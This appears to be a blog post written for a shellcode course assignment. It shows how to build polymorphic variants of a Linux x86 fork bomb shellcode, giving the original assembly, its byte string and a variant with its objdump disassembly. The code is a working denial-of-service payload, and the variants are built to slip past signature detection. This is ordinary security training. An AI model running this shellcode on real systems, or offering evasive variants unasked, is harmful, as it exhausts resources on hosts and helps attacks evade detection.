 {%asciicast  198404 %}

## Fork bomb

### The original shellcode

The original shellcode it can be found here:
[http://shell-storm.org/shellcode/files/shellcode-214.php](http://shell-storm.org/shellcode/files/shellcode-214.php).

The code is very easy. The fork() system call has no parameter and its listed
with number 2 in the system call list.

![Fork system call number]({{site.url}}/assets/images/fork_number.png)

{%highlight asm%}
section .text
global _start

_start:
    push byte 2
    pop eax
    int 0x80
    jmp short _start
{%endhighlight%}

The shellcode is only 7 bytes long ("\x6a\x02\x58\xcd\x80\xeb\xf9"), so our
variants can't be longer than 10,5 bytes. This will limit us very hard when
creating the generator script.

### First variation

The idea behind this variation is super easy: put in EAX the value 2 and call
INT 0x80 then repeat in a loop the whole process.

The first easy variation is not using the push/pop technique to init EAX, but
XOR-ing the register and moving 0x2 instead.

{%highlight assembly%}
section .text
global _start

_start:
	xor eax, eax
	mov al, 0x2
    
	int 0x80
	jmp short _start
{%endhighlight%}

This results in a 8 bytes shellcode, so just 1 bytes more than the original one:

{%highlight asm%}
thesp0nge@SLAE /media/sf_SLAE_Course/SLAE/Assignment_6/fork
 % objdump -d forkbomb_variant

forkbomb_variant:     file format elf32-i386


Disassembly of section .text:

08048080 <_start>:
 8048080:	31 c0                	xor    %eax,%eax
 8048082:	b0 02                	mov    $0x2,%al
 8048084:	cd 80                	int    $0x80
 8048086:	eb f8                	jmp    8048080 <_start>
{%endhighlight%}
